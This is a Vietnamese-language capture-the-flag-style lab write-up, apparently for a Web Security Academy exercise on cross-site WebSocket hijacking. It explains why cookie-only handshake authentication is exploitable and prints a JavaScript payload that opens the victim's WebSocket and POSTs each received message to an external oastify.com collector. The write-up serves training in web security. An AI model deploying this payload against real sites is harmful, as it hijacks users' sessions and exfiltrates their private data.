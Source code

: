 >![](https://i.imgur.com/Z5xTws7.png)

Phần mô tả giống bài lab trên, nhiệm vụ của bài này là `hijack websocket`.

Đọc phần lý thuyết, ta biết rằng nếu các handshake request chỉ xác thực dựa trên cookie session, thì khi attacker chiếm được cookie, sẽ chiếm được toàn bộ socket giao tiếp giữa nạn nhân và máy chủ.

Trình duyệt sẽ gửi cùng 1 cookie đến 1 site cho dù trang đó được mở ở các tab khác nhau, lợi dụng cơ chế đó ta tạo 1 trang web, ở đó sẽ dùng javascript gửi 1 request tới socket mục tiêu, trình duyệt sẽ mang theo cookie trong đó => coi như ta chiếm được session trong request gửi đi.

Kết quả nhận được trả về từ socket sẽ được forward ra máy chủ ngoài của ta.

Payload:
```javascript!
<script>
var webSocket = new WebSocket("wss://0a010069037be722c267763000290075.web-security-academy.net/chat");

webSocket.onopen = function () {
        webSocket.send("READY")
    }
webSocket.onmessage = function(event) {
        fetch('https://0648bqx3hdjhg3bx4pec94act3ztni.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
}
</script>
```
Kết quả:

>![](https://i.imgur.com/YNzYpda.png)


<hr>
